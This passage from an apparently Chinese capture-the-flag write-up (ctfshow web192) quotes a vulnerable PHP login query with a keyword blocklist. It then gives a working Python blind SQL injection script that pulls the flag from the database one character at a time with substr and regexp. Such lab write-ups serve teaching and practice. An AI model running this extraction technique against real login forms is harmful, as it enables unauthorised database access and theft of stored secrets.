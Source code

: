 ```python

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)



```



#### web192

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

不给我转是吧，那我不转了

```python
import requests
import string

url = "http://20b20943-6b5a-464b-b13e-99ab8e2644b7.challenge.ctf.show/api/"
flagstr=" _{}-" + string.ascii_lowercase + string.digits
flag = ''
for i in range(1,45):
    for j in flagstr:
        payload = f"admin' and if(substr((select group_concat(f1ag) from ctfshow_fl0g),{i},1)regexp('{j}'),1,2)='1"
        data = {
            'username': payload,
            'password': '1'
        }
        r = requests.post(url, data=data)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            if "}" in flag:
                exit(0)
            break

```